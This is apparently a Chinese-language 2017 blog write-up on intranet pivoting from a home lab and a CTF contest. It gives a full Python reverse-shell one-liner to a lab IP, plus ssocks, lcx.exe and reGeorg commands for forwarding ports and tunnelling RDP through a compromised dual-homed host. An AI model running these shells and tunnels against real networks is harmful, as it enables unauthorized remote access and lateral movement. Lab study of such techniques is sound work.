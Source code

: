 ```yaml
---
title: 内网穿透随想
date: 2017-12-12 15:56:57
tags:
- 内网渗透
categories: 
- 渗透
---
```


整理整理最近碰到关于内网穿透（渗透）的一些基础知识



###  内网渗透随想  
***

![模拟](http://oohnuejim.bkt.clouddn.com/%E6%A8%A1%E6%8B%9F.png)

上图是我自己布置模拟环境，可以从拓扑上清晰地看出内网的ip段是192.168.1.0/24，模拟的外
段是192.168.80.0/24，现在我要把内网Ubuntu的机子的shell反弹到外网Kali

上，现在需要Centos7做中转。
我在Centos上做端口转发

`cd /src`   
`./rcsocks -l 1088 -p 1080 -vv`

现在我将Ubuntu上执行Python的反弹shell（反弹shell命令很多，请自行搜索），

<!--more-->

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",1089));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

然后kali正向连接Centos就行了

`nc 192.168.80.129 1080`  
或者  
` ./rssocks -vv -s 192.168.80.129:1080`


![西普市赛](http://oohnuejim.bkt.clouddn.com/%E8%A5%BF%E6%99%AE%E5%B8%82%E8%B5%9B.png)


这个环境是我上次市赛碰到的环境，当时没有在ssocks本地编译，所以用了另一个代理工具reGeorg  
附上链接https://bbs.ichunqiu.com/thread-12514-1-1.html 
用法跟ssocks有点区别，  
![reGeorg](http://oohnuejim.bkt.clouddn.com/reGeorg.png)   
这个需要在双网卡服务器的web服务上放置一个tunnel脚本，比如php的就放置tunnel.nosocket.php，然后在本机执行正向连接到tunnel脚本的命令

python reGeorgSocksProxy.py -u (上传reGeorg脚本的地址) -p (转发端口)

### 端口转发工具
***
再来简单地介绍介绍几个端口转发工具
适合自己的才是最好的

- lcx.exe （最容易被杀软干）


反弹shell
攻击机  
`lcx.exe -listen 51 33891 把51的流量转发到33891上`

代理服务器（靶机）  

`lcx.exe -slave 192.168.1.100 51 192.168.80.139 3389`  
把本机3389转发到攻击机的51端口上

攻击机只需远程桌面连接 127.0.0.1:33891就能连接到靶机的3389了

![远程桌面](http://oohnuejim.bkt.clouddn.com/%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2.png)


- Reduh、reGeorg、Tunna


用法都差不多，大同小异  
具体看   
https://bbs.ichunqiu.com/thread-12514-1-1.html    
https://mp.weixin.qq.com/s/EWL9-AUB_bTf7pU4S4A2zg

具体介绍一个reGeorg，比如说PHP的环境，就把tunnel.nosocket.php放在一个web目录下，然后
python reGeorgSocksProxy.py -u (上传reGeorg脚本的地址) -p (转发端口)

windows 用proxifier对转发端口进行全局代理
linux 用proxychain

- ssocks


这个工具在linux用的比较多  
一些基础用法 在上面的演示中也讲到了，具体看  
http://www.freebuf.com/articles/system/12182.html
